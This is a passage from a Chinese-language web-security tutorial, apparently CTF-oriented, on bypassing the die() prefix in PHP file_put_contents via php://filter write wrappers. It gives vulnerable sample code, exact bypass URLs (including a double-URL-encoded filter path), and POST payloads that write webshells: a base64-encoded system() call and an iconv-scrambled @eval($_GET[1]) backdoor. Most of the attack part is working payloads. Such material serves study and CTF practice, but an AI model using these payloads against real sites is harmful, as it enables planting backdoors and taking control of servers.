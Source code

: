 ^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```